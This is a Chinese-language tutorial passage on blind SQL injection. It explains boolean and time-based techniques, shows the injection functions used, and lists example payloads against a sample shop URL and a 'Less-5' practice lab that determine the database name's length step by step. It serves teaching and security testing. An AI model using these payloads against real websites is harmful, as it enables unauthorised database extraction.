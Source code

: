盲注是一种SQL注入类型，通过询问数据库一系列真、假问题，根据数据库响应来获得攻击者想要的信息（答案）。

这种攻击常见于一些显示配置错误且存在sql注入漏洞的web应用。

#### 2.3.1 普通SQL注入与盲注的区别

在普通的SQL注入中，将显示来自数据库的错误消息，并提供足够的信息以了解查询的工作方式。

或者在基于联合的SQL注入的情况下，应用程序不会直接反映网页上的信息。

因此，在没有显示任何内容的情况下，您将需要根据一个正确或错误的语句开始询问数据库问题。这就是为什么盲目的SQL注入更难被利用的原因。

#### 2.3.2 SQL 盲注类型

有几种不同类型的盲SQL注入：
- 基于内容的SQL盲注
- 基于时间的SQL盲注。

例如：我们尝试根据unique id 询问数据库一个二值问题，假设我们访问的url为 https://my-shop.com?article=4 ，在服务器段查询会被转换为下列语句：
```
SELECT * from articles where article_id = 4
```
当我们想渗透时，我们访问的url为 https://my-shop.com?article=4 AND 1=1 ,此时后台的SQL改变为:
```
SELECT * from articles where article_id = 4 AND 1 = 1
```
假如上面两种情况，浏览器返回同样的页面，这说明这个网站的这一处有SQL盲注漏洞；如果浏览器返回“页面没有发现”或其它错误，这说明此处SQL盲注漏洞可能不存在或不易利用。

如果把URL改为：https://my-shop.com?article=4 AND 1=2 ，那么后台执行的查询语句为：
```
SELECT * from articles where article_id = 4 AND 1 = 2
```

这条执行时会报错，原因是语句是错误的。上面仅仅是询问服务器一些简单问题，我们可以把问题变得稍微复杂一些，例如将访问URL改为： 
```
https://my-shop.com?article=4 AND substring(database_version(),1,1) = 2
```

大多数情况下，你从查找使用哪种类型的数据库开始，根据数据库的类型，可以找到数据库的系统表，您可以枚举数据库中存在的所有表。有了这些信息，您就可以开始从所有表中获取信息，并且可以转储数据库。请注意，如果数据库的权限设置正确，则此方法可能无法工作（这意味着无法使用用于从Web应用程序连接到数据库的用户查询系统表）。

需要了解的一些函数有：

- ascii(str)
str是一个字符串参数，返回值为其最左侧字符的ascii码。通过它，我们才能确定特定的字符。
- substr(str,start,len) 或 substring
这个函数是取str中从下标start开始的，长度为len的字符串。通常在盲注中用于取出单个字符，交给ascii函数来确定其具体的值。
- length(str)
这个函数是用来获取str的长度的。这样我们才能知道需要通过substr取到哪个下标。
- count([column])
这个函数大家应该很熟，用来统计记录的数量的，其在盲注中，主要用于判断符合条件的记录的数量，并逐个破解。
- if(condition,a,b)
当condition为true的时候，返回a，当condition为false的时候，返回b。



另一种方法称为基于时间的SQL注入，例如：

```
article = 4; sleep(10) --
```
##### 盲注测试过程
1.首先要获取到当前数据库的长度，可以通过以下payload来实现：
```
[domain]/Less-5/?id=1' and (select length(database())>1) and '1'='1    返回true
[domain]/Less-5/?id=1' and (select length(database())>10) and '1'='1    返回false
[domain]/Less-5/?id=1' and (select length(database())>5) and '1'='1     返回true
[domain]/Less-5/?id=1' and (select length(database())>7) and '1'='1     返回true
[domain]/Less-5/?id=1' and (select length(database())>8) and '1'='1     返回false
```
